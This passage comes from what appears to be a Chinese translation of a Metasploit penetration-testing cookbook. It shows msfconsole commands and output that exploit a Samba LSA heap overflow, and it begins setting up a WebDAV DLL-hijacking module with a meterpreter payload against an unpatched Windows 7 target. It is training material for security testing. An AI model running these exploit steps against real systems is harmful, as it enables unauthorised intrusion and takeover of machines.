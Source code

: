     ```
    msf exploit(lsa_transnames_heap) > exploit
    [*] Started bind handler
    [*] Creating nop sled....
    [*] Trying to exploit Samba with address 0xffffe410...
    [*] Connecting to the SMB service... 
    ```

成功执行该漏洞利用后，我们将获得与目标机器的 shell 连接。这个过程与我们在前面的食谱中讨论的过程非常相似。唯一的区别在于选择漏洞利用和有效负载。您尝试的漏洞利用和有效负载组合越多，您对它的理解就会越好。

## 它是如何工作的。。。

让我们快速浏览一下有关该服务、其利用情况和工作情况的说明。Samba 用于 Linux 和 Windows 机器之间的打印机和文件共享。此模块在 Samba 守护程序的 LSA RPC 服务中触发堆溢出。此模块使用 talloc 区块覆盖方法（credit Ramon 和 Adriano），该方法仅适用于 Samba 版本 3.0.21-3.0.24。该漏洞利用堆中的动态内存分配。有可能在第一次尝试时利用此漏洞无法成功，因此您可以尝试多次以获得成功。

## 还有更多。。。

让我们介绍一些与 Linux 操作系统相关的模块。

### 其他针对 Linux 的相关漏洞模块

除了本配方中讨论的利用模块外，还有两个模块值得注意。强烈建议您手动尝试这些漏洞利用，以深入了解它们。它们是：

*   **Samba chain_reply Memory corrupt:**此漏洞通过破坏 3.3.13 之前的 Samba 版本中分配给响应数据包的内存而起作用。通过传递大于目标缓冲区大小的值，内存崩溃。
*   **Samba trans2open 溢出：**这是 Samba 版本 2.2.0 至 2.2.8 中存在的缓冲区溢出漏洞。它通过在未设置 `noexec`堆栈选项的 x86 Linux 机器上利用该漏洞工作。

# 了解 Windows DLL 注入缺陷

在此配方中，我们将处理 Windows 操作系统中不直接存在的一种特殊类型的漏洞。事实上，它存在于运行在 Windows 上的各种应用软件中。这个远程攻击向量处理一类影响应用程序加载外部库的漏洞。我们将对这一问题进行监督，以便仔细分析。

## 准备好了吗

这个攻击向量涉及创建一个脆弱的路径或目录，目标必须执行以触发它。目录可以是文件、解压缩存档、USB 驱动器、网络共享等。创建的文件将完全无害，但它将执行 DLL 注入代码以危害系统。

## 怎么做。。。

让我们分析一个 DLL 注入的实际实现。在本例中，我们的目标机器是未修补的 Windows 7 Ultimate 机器。该过程通过创建一个链接来共享目标必须访问和执行的文件。在我们前进的过程中，您将了解这一过程。

1.  We will be using the `exploit/windows/browser/webdav_dll_hijacker` module as an exploit and `windows/meterpreter/bind_tcp` as the payload. Let us quickly set up the exploit and payload along with other required parameters:

    ```
    msf > use exploit/windows/browser/webdav_dll_hijacker
    msf exploit(webdav_dll_hijacker) > set payload windows/meterpreter/bind_tcp
    payload => windows/meterpreter/bind_tcp
    msf exploit(webdav_dll_hijacker) > show options
    Module options (exploit/windows/browser/webdav_dll_hijacker):
    Name Current Setting Required Description
    ---- --------------- -------- -----------
    BASENAME policy yes The base name for the listed
    EXTENSIONS txt yes The list of extensions
    SHARENAME documents yes The name of the top-level
    SRVHOST 0.0.0.0 yes The local host...
    SRVPORT 80 yes The daemon port to listen
    SSLCert no Path to a custom SSL..
    URIPATH / yes The URI to use
    Payload options (windows/meterpreter/bind_tcp):